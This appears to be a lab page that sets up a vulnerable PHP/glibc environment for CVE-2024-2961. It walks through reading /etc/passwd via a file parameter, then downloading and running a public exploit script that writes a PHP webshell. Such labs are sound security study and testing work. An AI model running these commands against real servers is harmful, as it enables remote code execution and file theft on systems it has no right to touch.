


PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)¶
The GNU C Library is designed to be a backwards compatible, portable, and high performance ISO C library.
The iconv() function in the GNU C Library versions 2.39 and older may overflow the output buffer passed to it by up to 4 bytes when converting strings to the ISO-2022-CN-EXT character set, which may be used to crash an application or overwrite a neighbouring variable.
If an arbitrary file read vulnerability in PHP application, you can upgrade it to remote code execution through the iconv() issue CVE-2024-2961.
References:
Vulnerable environment¶
Execute following command to start a PHP 8.3.4 server with iconv 2.36:
docker compose up -d
After the server is started, you can read the /etc/passwd through http://your-ip:8080/index.php?file=/etc/passwd.
Exploit¶
Before using the exploit, you have to prepare a Linux based system and the Python 3.10+.
Install the dependencies:
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
Then download and run the POC from https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py:
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"

As you can see, shell.php has been written successfully:
